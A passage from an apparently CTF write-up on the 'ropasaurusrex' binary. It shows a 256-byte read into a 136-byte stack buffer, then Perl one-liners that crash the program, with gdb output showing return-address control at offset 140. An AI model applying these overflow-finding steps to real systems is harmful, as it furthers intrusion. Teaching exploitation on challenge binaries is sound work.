 Now, if you don't know assembly, this might look daunting. But, in fact, it's simple. Here's the equivalent C:

<pre>
<span class="lnr">1 </span>  <span class="Type">ssize_t</span> __cdecl vulnerable_function()
<span class="lnr">2 </span>  {
<span class="lnr">3 </span>    <span class="Type">char</span> buf[<span class="Constant">136</span>];
<span class="lnr">4 </span>    <span class="Statement">return</span> read(<span class="Constant">0</span>, buf, <span class="Constant">256</span>);
<span class="lnr">5 </span>  }
</pre>

So, it reads 256 bytes into a 136-byte buffer. Goodbye Mr. Stack!

You can easily validate that by running it, piping in a bunch of 'A's, and seeing what happens:
<pre>
<span class="lnr">1 </span>  ron@debian-x86 ~ $ <span class="Statement">ulimit</span> <span class="Special">-c</span> unlimited
<span class="lnr">2 </span>  ron@debian-x86 ~ $ perl <span class="Special">-e</span> <span class="Statement">&quot;</span><span class="Constant">print 'A'x300</span><span class="Statement">&quot;</span> | ./ropasaurusrex
<span class="lnr">3 </span>  Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
<span class="lnr">4 </span>  ron@debian-x86 ~ $ gdb ./ropasaurusrex core
<span class="lnr">5 </span>  <span class="Statement">[</span>...<span class="Statement">]</span>
<span class="lnr">6 </span>  Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr">7 </span>  <span class="Comment">#0  0x41414141 in ?? ()</span>
<span class="lnr">8 </span>  <span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span>
</pre>

Simply speaking, it means that we overwrote the return address with the letter A 4 times (<tt>0x41414141</tt> = "AAAA").

Now, there are good ways and bad ways to figure out exactly what you control. I used a bad way. I put "BBBB" at the end of my buffer and simply removed 'A's until it crashed at <tt>0x42424242</tt> ("BBBB"):

<pre>
<span class="lnr">1 </span>  ron@debian-x86 ~ $ perl <span class="Special">-e</span> <span class="Statement">&quot;</span><span class="Constant">print 'A'x140;print 'BBBB'</span><span class="Statement">&quot;</span> | ./ropasaurusrex
<span class="lnr">2 </span>  Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
<span class="lnr">3 </span>  ron@debian-x86 ~ $ gdb ./ropasaurusrex core
<span class="lnr">4 </span>  <span class="Comment">#0  0x42424242 in ?? ()</span>
</pre>

If you want to do this "better" (by which I mean, slower), check out Metasploit's <a href="https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb">pattern_create.rb</a> and <a href="https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb">pattern_offset.rb</a>. They're great when guessing is a slow process, but for the purpose of this challenge it was so quick to guess and check that I didn't bother.
